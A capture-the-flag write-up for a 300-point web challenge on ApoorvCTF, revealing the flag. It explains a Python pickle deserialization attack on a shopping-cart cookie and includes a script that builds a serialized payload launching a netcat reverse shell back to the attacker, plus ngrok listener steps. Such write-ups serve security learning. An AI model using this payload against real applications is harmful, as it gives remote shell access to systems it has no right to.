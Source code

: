 A serial killer has decided to sell all his victims' possessions on this website. Hack it before he sells any of the items!

300pts(hard)\
ApoorvCTF{c0Ngr47S_y0u_ArE_A_Ser1A1_KI11er}\
hint cost: 50pts\
hint: try to find where the cart items of the user are stored\
web exploiation\
#web

Writeup:
Challenge name and description suggests that this a deserialization vulnerability involving the pickle module from python.
Upong accessing and using the site we see that cart items are somehow stored in a cookie in a serialized base64 encoded form.
When serialized objects are deserialized they are initialized and instantiated using some pre defined methods before being used later on in the code.
One such method is the __reduce__() method which we can alter for our purpose.
So we can create an object with a malicious __reduce__() method which would essentially be a reverse shell payload.
Here, we are going to use a netcat reverse shell payload.

Script to generate our malicious serialized cart value:
```
import pickle, base64, os

class payload(object):
    def __reduce__(self):
        return (os.system, (f'nc -nv <your ip> <port> -e /bin/bash',))

deserialpayload = payload()
serialpayload = pickle.dumps(deserialpayload)
print(base64.b64encode(serialpayload))
```
Now to provide our ip, we need to use port forwarding using ngrok since we are connected to the internet using a router and only the router's ip is visible to the internet.
First setup a netcat listener using nc -nvlp 1234
Now, after installing and setting up ngrok, execute ngrok tcp 1234 which would basically forward our local tcp port 1234 to an external port directly accessible from the internet.
Note down the domain name of the external address and the port given by ngrok for our use.
Now, execute ping <domain name> to find the ip address of that domain name. (You can use any other method to find the domain name)
Now put this ip address in place of "<your ip>" and the port we got from ngrok in place of <port> in the python script.
Execute it to get the serialized cart value and set it as your cookie.
Now click on Cart on the website and voila you have a shell!

